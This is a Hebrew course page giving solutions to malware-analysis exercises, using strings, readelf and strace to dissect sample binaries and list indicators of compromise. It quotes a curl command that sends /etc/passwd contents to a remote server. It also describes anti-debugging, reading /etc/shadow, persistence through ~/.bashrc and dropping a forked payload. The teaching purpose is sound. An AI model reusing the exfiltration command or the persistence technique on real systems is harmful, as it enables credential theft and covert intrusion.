

repository: AmitPinchasi/amittech · page: ליבת-המחשב/7 - הנדסה הפוכה/7.5 - ניתוח תוכנות זדוניות/7.5 - ניתוח תוכנות זדוניות - פתרון/index.html · generator: mkdocs

## פתרון תרגיל 1 - ניתוח סטטי עם strings ו-readelf

1. פלט `file`:
```
sample1: ELF 64-bit LSB pie executable, x86-64, dynamically linked, stripped
```
סוג הקובץ: קובץ הרצה ELF של 64 ביט, מקושר דינמית, ובלי סימבולים (stripped).

2. מחרוזות מעניינות שנמצא ב-`strings`:
   - `"/etc/passwd"` - קורא קובץ סיסמאות של המערכת
   - `"/tmp/.cache_data"` - שם קובץ חשוד עם נקודה בהתחלה (קובץ מוסתר)
   - `"curl -s http://192.168.1.100:8080/upload -d @/tmp/.cache_data"` - שולח נתונים לשרת חיצוני!
   - `"r"`, `"w"` - מצבי פתיחת קבצים

3. פלט `readelf -d` יראה תלות ב-libc.so (הספרייה הסטנדרטית). זו התלות היחידה הישירה.

4. ניתוח ההתנהגות:
   - התוכנית **קוראת את /etc/passwd** - קובץ שמכיל מידע על משתמשי המערכת
   - **שומרת את התוכן בקובץ מוסתר** (/tmp/.cache_data - הנקודה בהתחלה מסתירה אותו מ-ls רגיל)
   - **שולחת את הנתונים לשרת חיצוני** בכתובת 192.168.1.100 על פורט 8080 באמצעות curl
   - **מוחקת את הקובץ הזמני** אחרי השליחה (unlink) כדי להסתיר עקבות

   זו תוכנית **גניבת מידע (data exfiltration)** קלאסית.

## פתרון תרגיל 2 - זיהוי התנהגות מפלט strace

1. **בדיקת /proc/self/status**: התוכנית בודקת את השדה `TracerPid`. אם הערך שונה מ-0, זה אומר שמישהו מדבג אותה (debugger מחובר). זו טכניקת **אנטי-דיבוג** - אם מזהים debugger, התוכנה יכולה לשנות התנהגות או לצאת.

2. קבצים רגישים:
   - `/etc/shadow` - ניסתה לקרוא (נכשלה בגלל חוסר הרשאות) - מכילה hash-ים של סיסמאות
   - `/etc/passwd` - קראה בהצלחה - מכילה מידע על משתמשי המערכת

3. שליחת נתונים:
   - כתובת: **10.0.0.50**
   - פורט: **4444** (פורט נפוץ לshell הפוכה ו-malware)
   - שלחה את תוכן /etc/passwd לשרת

4. התמדה (persistence):
   - התוכנית כותבת ל-**~/.bashrc** את השורה `/tmp/.hidden_process &`
   - זה אומר שבכל פעם שהמשתמש פותח terminal חדש, הprocess הזדוני יורץ מחדש

5. מה קורה בסוף:
   - יוצרת תיקייה מוסתרת `/tmp/.hidden_dir`
   - כותבת לתוכה קובץ בינארי חדש (payload) - שמתחיל ב-`\x7fELF` (כותרת ELF)
   - עושה `fork` ומריצה את ה-payload כprocess בן

6. מזהי פשרה (IOC):
   - **כתובת IP**: 10.0.0.50
   - **פורט**: 4444
   - **נתיבי קבצים**: `/tmp/.hidden_dir/payload`, `/tmp/.hidden_process`
   - **שינוי קובץ**: `/home/user/.bashrc` (שורה שנוספה)
   - **הprocess**: הprocess payload שנוצר ב-fork
